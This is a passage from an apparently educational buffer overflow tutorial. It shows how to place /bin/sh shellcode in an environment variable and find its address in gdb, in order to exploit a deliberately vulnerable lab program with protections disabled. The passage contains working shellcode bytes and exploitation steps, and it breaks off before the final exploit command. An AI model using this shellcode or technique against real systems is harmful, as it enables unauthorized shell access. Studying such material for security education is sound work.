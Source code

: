 > Note that we are still disabling security measures during compilation, and that ASLR needs to be turned off if you want to follow along.

Can this tiny buffer be exploited?

You might think that we can do something like the following:

```
| 8  a's | 8 b's | ret | 50 NOP's | shellcode |
```

Fill buffer, overwrite saved frame pointer, overwrite ret to point to NOP-sled and then follow with our NOP-sled and shellcode. This is not possible because:

- We can't have null bytes in the command line argument since the argv's strings are null-terminated.
- `strcpy` will stop writing after encountering a null byte.

Our shellcode is NULL-free, but ret is not. ret is "0x00007fff..." and the only reason we succeeded modifying it correctly in the earlier example was that ret was the last part of our input string and the stack already contained the necessary null bytes as part of the previous ret address that we overwrote.

> Some programs can be exploited without worrying about null bytes, as we will see later.

But there's a simple solution that will allow us to exploit this tiny buffer to execute a shell, putting the shellcode in an enviroment variable.

Launch gdb with shellcode in an environment variable:

```bash
env - MYSH=`python -c 'print "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'` gdb bo_vuln2
(gdb) unset env LINES
(gdb) unset env COLUMNS
```

Find the address of the shellcode:

```bash
(gdb) b main
Breakpoint 1 at 0x401157: file bo_vuln2.c, line 16.
(gdb) r
Breakpoint 1, main (argc=1, argv=0x7fffffffed58) at bo_vuln2.c:16
...
(gdb) x/s *(char **)environ
0x7fffffffef7a: "PWD=/my/current/working/directory"
(gdb) <PRESS RETURN>
0x7fffffffef9f: "MYSH=H1\322H\273\377/bin/shH\301\353\bSH\211\347H1\300PWH\211\346\260;\017\005"
```

> Tip: you can use the gdb `start` command to run the program with a temporary breakpoint at the beginning of main.

The environment variable contains "MYSH=", so we need to add 5 bytes to the address to skip past that part: 0x7fffffffefa4.

Now we can exploit the program in gdb using:
